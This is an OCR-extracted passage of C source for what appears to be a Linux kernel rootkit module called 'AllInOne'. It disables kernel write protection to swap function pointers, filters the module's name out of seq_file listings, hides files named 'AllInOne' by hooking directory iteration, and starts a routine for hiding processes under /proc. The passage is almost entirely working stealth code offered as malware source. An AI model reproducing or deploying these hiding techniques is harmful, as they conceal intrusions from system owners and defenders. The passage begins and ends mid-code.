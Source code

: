 ```c
		}	\
		else{	\
			seq = (struct seq_file *)filp->private_data;	\
			seq_op = (struct seq_operations *)seq->op;	\
			old = seq_op->opname;	\
			disable_write_protection();	\
			seq_op->opname = new;	\
			enable_write_protection();	\
		}	\
	}while(0)

int (*real_seq_show_1)(struct seq_file *seq, void *v);

int fake_seq_show_1(struct seq_file *seq, void *v){
	int ret;
	size_t last_count, last_size;
	
	last_count = seq->count;
	ret = real_seq_show_1(seq, v);

	last_size = seq->count - last_count;

	if(strnstr(seq->buf + seq->count - last_size, SECRET_MODULE, \
				last_size)){
		seq->count -= last_size;
	}

	return ret;
}

//---------------------- hide AllInOne.ko ->
#define SECRET_FILE	"AllInOne"
#define ROOT_PATH	"/"

int (*real_iterate_2)(struct file *, struct dir_context *);
int (*real_filldir_2)(struct dir_context *, const char *, int, \
					loff_t, u64, unsigned);

int fake_filldir_2(struct dir_context *ctx, const char *name, int namlen, \
				loff_t offset, u64 ino, unsigned d_type);

int fake_iterate_2(struct file *filp, struct dir_context *ctx){
	real_filldir_2 = ctx->actor;
	*(filldir_t *)&ctx->actor = fake_filldir_2;

	return real_iterate_2(filp, ctx);
}

int fake_filldir_2(struct dir_context *ctx, const char *name, int namlen, \
				loff_t offset, u64 ino, unsigned d_type){
	if(strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0){
		return 0;
	}

	return real_filldir_2(ctx, name, namlen, offset, ino, d_type);
}

//---------------------- hide process ->
#define PROC_PATH	"/proc"
#define SECRET_PROC	1
int (*real_iterate_3)(struct file *, struct dir_context *);
int (*real_filldir_3)(struct dir_context *, const char *, int, \
					loff_t, u64, unsigned);
```